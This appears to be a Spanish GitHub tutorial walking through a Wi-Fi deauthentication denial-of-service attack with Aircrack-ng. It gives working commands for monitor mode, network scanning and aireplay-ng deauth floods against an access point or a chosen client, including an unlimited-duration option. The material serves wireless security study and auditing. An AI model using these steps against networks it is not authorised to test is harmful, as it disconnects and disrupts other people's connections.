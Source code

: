<p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?color=F70000&width=401&lines=Ataque+de+desautenticaci%C3%B3n+Wi-Fi"></a>
</p>

<h1 align="center"></h1>

Un ataque de desautenticación Wi-Fi, también conocido como denegación de servicio a nivel red, consiste en inundar de solicitudes al punto de acceso o estación para saturar el ancho de banda con el objetivo de desconectar a todos los clientes de la red por un tiempo definido. Las tramas de desautenticación se realizan normalmente para determinar una conexión entre un cliente y un punto de acceso (AP) sin necesidad de ir cifrado. Por lo tanto, cualquier persona dentro de la red local (LAN) puede falsificar la dirección MAC de la víctima o AP.


En el siguiente esquema se observa como el `Atacante` envía solicitudes masivas al `Punto de Acceso`, haciendo que el/los clientes u otros equipos que estén conectados a la red LAN se vean afectados.

![esquema_desautenticacion](https://user-images.githubusercontent.com/75953873/180201683-5b0b1d4d-154d-4f3e-91a0-ecec5e35e4c1.png)

<h1 align="center"></h1>

### Aircrack-ng

Existen infinidades de herramientas para realizar este ataque, una de las más conocidas es la suite de Aircrack-ng, ya viene incorporada en distribuciones basadas en Debian como lo es Kali Linux y Parrot OS.

**Instalar en Debian:**
```
sudo apt-get install aircrack-ng
```

Pero antes que nada hay que reconocer la dirección MAC del objetivo (AP) y para ello es necesario poner nuestra tarjeta de red en modo monitor. Esto permitirá escuchar y capturar todos los paquetes que viajan en el aire.
```
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
![1](https://user-images.githubusercontent.com/75953873/180204632-77b2796f-52ba-4f03-8749-f3ce83a16a47.png)

Si lo prefieren automatizado:
```
airmon-ng start wlan0
```
![2](https://user-images.githubusercontent.com/75953873/180204828-ea12756e-4daf-4041-95e7-337f19969bd7.png)

Lo siguiente será matar los procesos PID para no presentar ningún error al momento de auditar la red. Cada PID es único y se puede matar de forma manual según su ID:
```
pkill <nombre-del-proceso>
```
![3](https://user-images.githubusercontent.com/75953873/180205864-5c1debac-deed-4bb2-8146-58f864389591.png)

Pero si lo preferimos, aircrack lo hace automatizado por nosotros:
```
airmon-ng check kill
```
![4](https://user-images.githubusercontent.com/75953873/180206365-5a57d41b-26a8-40aa-bac1-1b2ad1b80d39.png)

A continuación, es momento de reconocer las redes de nuestro alrededor:
```
airodump-ng wlan0
```
![5](https://user-images.githubusercontent.com/75953873/180207009-d32f3206-8a73-41b7-b389-466aa8ac67a3.png)

**BSSID:** Dirección MAC del punto de acceso.

**PWR:** Rango en el que se encuentra el AP.

**Beacons:** Número de paquetes envíado por el AP.

**#Data:** Número de paquetes capturados.

**CH:** Número de canal donde opera el AP.

**MB:** Velocidad máxima soportada por el AP. MB = 11 es 802.11b, si MB = 22 es 802.11b+ y hasta 54 son 802.11g.

**ENC:** Tipo de algoritmo de cifrado, generalmente las redes privadas utilizan WPA/WPA2 y WEP. En caso de ser una red pública, el algoritmo que utilizará es OPN = sin encriptación.

**AUTH:** Protocolo de autenticación utilizado.

**ESSID:** Nombre de la red inalámbrica.

Luego de reconocer el BSSID y el canal, quedaría capturar los paquetes del AP objetivo:
```
airodump-ng -c <N-CHANNEL> --bssid <MAC-AP> wlan0
```
![6](https://user-images.githubusercontent.com/75953873/180209382-2b325c19-3b9c-4fc9-8395-91d46da5fb16.png)

La `STATION` son los clientes que están conectados la red (BSSID). En otra terminal proseguiremos a lanzar el ataque de desautenticación para desconectarlos:
```
aireplay-ng --deauth <SEGUNDOS> -a <MAC-AP> wlan0
```
![7](https://user-images.githubusercontent.com/75953873/180210826-d42ea7a3-8a7a-49aa-9f9a-bedbcc510d1c.png)

Al específicar el tiempo en `0` el ataque será ilimitado, el párametro `a` es el BSSID del punto de acceso que atacará, permitiendo así que todos los clientes no puedan conectarse a dicha red.

El ejemplo anterior desconectará a todos los dispositivos de la red. Ahora, si quisieramos desautenticar a un dispositivo en específico utilizamos el parámetro `-c` **+** la dirección `MAC` del dispositivo (**STATION**).
```
aireplay-ng --deauth <SEGUNDOS> -a <MAC-AP> -c <MAC> wlan0
```
![8](https://user-images.githubusercontent.com/75953873/180893744-86724669-affe-45b6-a424-9e0d77e0315e.png)



#### ~R3LI4NT~
